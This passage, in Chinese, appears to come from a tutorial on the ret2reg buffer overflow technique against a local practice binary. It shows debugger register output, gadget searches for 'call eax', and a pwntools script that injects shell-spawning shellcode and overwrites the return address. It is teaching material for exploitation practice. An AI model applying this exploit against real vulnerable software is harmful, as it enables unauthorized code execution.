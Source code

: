 ```bash
[----------------------------------registers-----------------------------------]
EAX: 0xffffccb0 --> 0x333231 ('123')
EBX: 0x0 
ECX: 0xffffd19a --> 0x333231 ('123')
EDX: 0xffffccb0 --> 0x333231 ('123')
ESI: 0xf7fb7000 --> 0x1afdb0 
EDI: 0xf7fb7000 --> 0x1afdb0 
EBP: 0xffffced8 --> 0x0 
ESP: 0xffffcebc --> 0x8048450 (<main+36>:   add    esp,0x10)
EIP: 0x804842b (<evilfunction+32>:  ret)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
```

可以发现 eax 的值仍然为缓冲区地址 (思路第一步完成)

查找 jmp eax 或 call eax 等指令

```bash
ROPgadget --binary ret2reg --only 'jmp|call' | grep 'eax'
或
objdump -d ret2reg | grep *%eax
```

```bash
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2reg --only 'jmp|call' | grep 'eax'
0x0804841f : call dword ptr [eax - 0x18]
0x080484ff : call dword ptr [eax - 0x80000000]
0x08048373 : call eax
```

将 EIP(即返回地址) 设置成 call eax 的指令地址 (思路第二部完成)

编写脚本，向缓冲区写入 shell（思路第三步完成）

```bash
# -*- coding: utf-8 -*-
from pwn import *

#buf:0x208
#ebp:4
shell = asm(shellcraft.sh())
payload = shell+(0x20c-len(shell))*'A'
payload += p32(0x08048373)

p = process(argv=['./ret2reg',payload])
#gdb.attach(p)
p.interactive()
```

说明：0x20c 怎么来的，见链接视频过程，不详述：[https://www.bilibili.com/video/av290246951/](https://www.bilibili.com/video/av290246951/)

```bash
gdb-peda$ run `python -c "print 'a'*0x204"`
```
